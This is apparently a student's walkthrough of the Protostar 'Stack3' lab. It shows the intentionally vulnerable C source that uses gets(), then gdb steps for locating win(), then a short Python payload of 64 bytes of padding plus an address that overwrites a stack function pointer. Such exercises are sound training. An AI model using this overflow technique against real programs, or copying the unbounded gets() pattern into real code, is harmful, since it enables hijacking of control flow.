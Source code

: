 # [cd ../](../index.md)
# Stack3
> Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

> Hints
  - both gdb and objdump is your friend you determining where the win() function lies in memory.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Interesting things
- `fp` is literally `modified` from earlier challenges
- We have a function `win()` and thats the goal to reach

- We have to overflow it and execute `win` with its `memory code`

# Starting it
- Lets fire up `gdb`  
`gdb stack3` and print the adress of `win` (in the gdb shell execute `x win`).
![gdb_win](gdb_win.png)  
- Now disassemble `main`  
Firstly, `set disassembly-flavor intel` and then `disass main`.
- Set a breakpoint to `call eax` cuz this will call our function if we do it right(`break *0x08048475`).

## Fuzzin it
Run it (with `r`) and enter 64 `A`. We got an error.
![gdb_64a](gdb_64a.png)  
Then try it with more `A`'s like 65. We got to the breakpoint. Now we have to exec `info registers`.
![gdb_65a](gdb_65a.png)  
- `eax` is overwritten by 1 `A` wohoo!  
If we continue(`c`) the program will call eax (`0x41`) but this isnt a good memory address so we got a segfault.

## Exploitin
- `win`'s adress is `0x8048424` and this is `24840408` and we can translate this hex to `$`.... we cant find 84 here so we have to use hex again.
- Lets write a lil py script to exploit it
  - We need 64 `A` and `\x24\x84\x04\x08`
```py
padding = 64 * 'A'
padding += '\x24\x84\x04\x08' #win's address(0x8048424)
print padding
```
Then we can execute it and pipe into the program.
```
python /tmp/stack3.py | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
# BOOM GOTCHA (:
